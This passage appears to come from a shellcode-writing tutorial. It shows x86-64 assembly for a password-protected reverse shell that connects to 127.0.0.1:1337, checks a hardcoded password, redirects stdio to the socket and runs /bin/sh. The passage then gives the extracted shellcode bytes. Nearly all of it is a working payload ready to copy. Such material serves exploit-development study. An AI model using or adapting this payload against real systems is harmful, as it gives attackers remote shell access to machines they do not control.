 ```plaintext
   syscall                  	; exec syscall

   ; connect(sockfd, {"127.0.0.1", 1337, AF_INET}, 16);
   push dword 0x0100007f	; 127.0.0.1
   push word 0x3905		; 1337
   push di 			; AF_INET
   mov rsi, rsp			; RSI point to the sockaddr struct
   mov edi, eax			; sockfd
   mov dl, 0x10			; addrlen
   mov al, 42			; connect syscall value 
   syscall                  	; exec syscall

   xchg eax, ebx		; save 0 value to EBX

   mov rsi, rsp			; RSI point to buffer on top of stack for read
   mov dl, 8			; number of bytes to read
   mov eax, ebx			; read syscall value
   syscall                  	; exec syscall

   xchg rdi, rsi		; copy user password address to RDI and keep sockfd in RSI
   mov rax, 0x737334507433334c  ; L33tP4ss
   scasq			; compare 8 bytes from RAX with 8 bytes from RDI
   xchg rdi, rsi		; reset RDI to sockfd value
   jnz goodbye			; if ZF set to 0, bad password, jump to clean exit

   mov esi, ebx			; RSI set to 0
   xchg eax, ebx		; RAX set to 0
   add esi, 3			; dup2 counter initialized

dup:
   ; dup2(sockfd, stdio)
   dec esi			; starting with stderr(2) to stdin(0)
				; RDI already set to sockfd
   mov al, 33			; dup2 syscall value
   syscall			; exec syscall
   jnz dup			; if RCX != 0 we need to confinue

   ; execve("/bin/sh", null, null)
   push rax			; string terminator
   mov al, 59			; execve syscall value
   mov rdi, 0x68732f2f6e69622f  ; "/bin//sh"
   push rdi			
   mov rdi, rsp			; RDI point to "/bin//sh"
        			; RSI already set to null pointer
   cdq				; RDX set to null pointer
   syscall                  	; exec syscall

goodbye:
   xchg eax, ebx
   mov al, 60			; exit syscall value
   syscall			; and exit
```
Then we extract the shellcode :
```plaintext
skrox@kali:~$./compile.sh reverse-pass
[x] Assembling...
[x] Linking...
[x] Dumped shellcode :
\x31\xff\xf7\xe7\xff\xc7\x89\xfe\xff\xc7\xb0\x29\x0f\x05\x68\x7f\x00\x00\x01\x66
\x68\x05\x39\x66\x57\x48\x89\xe6\x89\xc7\xb2\x10\xb0\x2a\x0f\x05\x93\x48\x89\xe6
\xb2\x08\x89\xd8\x0f\x05\x48\x87\xfe\x48\xb8\x4c\x33\x33\x74\x50\x34\x73\x73\x48
\xaf\x48\x87\xfe\x75\x22\x89\xde\x93\x83\xc6\x03\xff\xce\xb0\x21\x0f\x05\x75\xf8
\x50\xb0\x3b\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\x99\x0f\x05
```